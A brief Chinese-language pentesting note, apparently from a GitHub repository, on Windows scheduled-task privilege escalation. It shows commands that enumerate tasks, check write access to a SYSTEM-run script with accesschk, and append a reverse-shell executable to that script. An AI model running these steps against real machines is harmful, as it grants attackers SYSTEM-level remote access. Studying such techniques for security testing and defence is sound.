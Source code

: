 # 计划任务提权

原理：“Windows 可以配置为在特定时间、定期（例如每 5 分钟）或由某些事件（例如用户登录）触发时运行任务。**任务通常以创建它们的用户的权限运行**，但是管理员可以将任务配置为以其他用户身份运行，**包括 SYSTEM**

首先进行计划任务的枚举：

```bash
schtasks /query /fo LIST /v  
```

```bash
Get-ScheduledTask | where {$_.TaskPath -notlike “\Microsoft*”} | ft TaskName,TaskPath,State
```

## **案例：**

若发现一个文件（**CleanUp.ps1**），文件内容：每分钟都使用系统级权限去清除具有的日志文件。则可以查看文件权限

```bash
accesschk.exe /accepteula -quvw user  **C:\DevTools\CleanUp.ps1**
```

```bash
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1  **//将自创建的shell覆盖至具有定时运行的文件中**
```